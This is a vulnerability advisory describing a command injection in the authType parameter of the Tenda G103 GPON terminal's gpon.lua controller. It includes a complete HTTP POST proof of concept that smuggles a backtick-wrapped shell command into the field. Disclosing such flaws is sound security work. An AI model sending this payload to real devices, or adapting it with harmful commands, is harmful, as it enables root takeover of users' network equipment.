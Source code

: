 # Tenda G103 Command Injection Vulnerability in `authType` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability arises due to improper sanitization of the `authType` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authType`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, authentication configuration tampering, unauthorized access, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `authType` parameter, which is used to configure the authentication type for GPON services. A critical security flaw exists: the `authType` parameter is passed directly to the `uci` system command without sanitization or input validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)


Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or logical operators `&&`) in the `authType` parameter. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell when the concatenated command runs.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 54
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authType=1`touch$IFS/tmp/authType.txt`
```

#### Execution Steps:



1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authType.txt`.

#### Expected Result:

The file `/tmp/authType.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)
